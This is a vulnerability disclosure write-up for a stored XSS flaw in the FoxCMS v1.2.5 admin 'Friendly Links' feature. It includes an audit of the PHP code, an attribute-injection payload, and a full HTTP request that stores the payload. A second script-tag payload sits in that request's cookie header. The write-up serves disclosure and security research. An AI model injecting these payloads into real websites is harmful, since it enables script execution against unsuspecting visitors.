 ## XSS

### Vulnerability Description
The latest version of FoxCMS v1.2.5 contains an XSS vulnerability in the Website homepage link. This vulnerability arises due to insufficient input validation and sanitization, allowing an attacker to inject arbitrary JavaScript code. The injected code will execute when other users view the file.

FoxCMS is an open-source, free-to-use content management system (CMS) based on PHP+MySQL architecture. It includes commonly used content models such as single pages, articles, products, galleries, videos, feedback, downloads, etc., and comes with rich template tags, SEO optimization, and static URL features. No advanced programming skills are needed, and users only need to know HTML to quickly build diverse applications for efficient content management. The system also supports multi-language support, form design, visitor statistics, message notifications, cloud storage services, etc.

Project Source Code: [Gitee FoxCMS](https://gitee.com/qianfox/foxcms)  
Official Website: [FoxCMS](https://www.foxcms.cn/)

![](./public/a-1.png)

### White-box Audit

The vulnerability was found in the `app\admin\controller\Link.php` file, where the `param` is directly passed to the `update` function for storage and updates:
```php
  public function edit()
    {
        $columnId = $this->request->param("columnId");
        $authRule = AuthRule::find($columnId);
        $bcidStr = str_replace(",", "_", $authRule->tier);
        $breadcrumb = AuthRule::getBreadcrumb($bcidStr);
        array_push($breadcrumb, ['id'=>'', 'title'=>'Edit Slide', 'name'=>DIRECTORY_SEPARATOR. config('adminconfig.admin_path').'/Link/edit','url'=>'javascript:void(0)']);
        View::assign("breadcrumb", $breadcrumb);

        if ($this->request->isPost()) {
            $param = $this->request->param();
            LinkModel::update($param);
            $this->success("Operation successful");
        }
        $id = $this->request->get('id');
        $slide = LinkModel::find($id);
        return view('edit',['link'=>$slide]);
    }
```

Tracking the flow revealed that `data` is passed to the `save` function:
![](./public/c-1.png)
The `save` function calls `updateData()` to update the data:
```php
 public function save(array $data = [], string $sequence = null): bool
    {
        // Assign data to the object
        $this->setAttrs($data);

        if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
            return false;
        }

        $result = $this->exists ? $this->updateData() : $this->insertData($sequence);

        if (false === $result) {
            return false;
        }

        // Write callback
        $this->trigger('AfterWrite');

        // Re-record original data
        $this->origin   = $this->data;
        $this->get      = [];
        $this->lazySave = false;

        return true;
    }
```
Finally, the SQL query is executed here without any filtering.
![](./public/c-2.png)

When visiting the website's homepage, the `footer.html` template is rendered, and the link is directly inserted into the `href` attribute, causing an XSS vulnerability.
![](./public/c-3.png)

### Vulnerability Exploit

Go to the website's backend "Friendly Links" section:
![](./public/c-4.png)

Insert the following payload in the link:
```r
" onfocus="alert('xss');" autofocus="
```
![](./public/c-5.png)

The full HTTP request is as follows:
```http
POST /index.php/admin4943/Link/edit HTTP/1.1
Host: localhost
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://localhost/index.php/admin4943/Link/edit?type=1&columnId=54&id=4
Cache-Control: no-cache
Sec-Fetch-Dest: empty
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Pragma: no-cache
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br, zstd
Origin: http://localhost
X-Requested-With: XMLHttpRequest
sec-ch-ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
Cookie: Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; EM_AUTHCOOKIE_lNE22nMPAa488ZNtzQ3WgvxbdQwb6OXM=admin%7C1770040866%7Cb261421f97bb00341664ae3a0f324f32; ujcms-visit-unique-visitor=499762764960989; ujcms-unique-visitor=-7658023558624320967; PHPSESSID=063db44dee3fd725ac70bcdf2d33ffbe; keeplogin=1%7C86400%7C1739866061%7C1ac00e88e1610806dc9a101784368bbd; status_desc=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E; version=1.2.5; access_::1=1739784248; access_127_0_0_1=1739791249
Content-Length: 120

id=4&sort=0&title=%E9%BB%94%E7%8B%90%E5%BB%BA%E7%AB%99&link=%22+onfocus%3D%22alert('xss')%3B%22+autofocus%3D%22&status=1
```
![](./public/c-6.png)

Then, visiting the website's homepage will automatically trigger the XSS vulnerability.
![](./public/c-7.png)

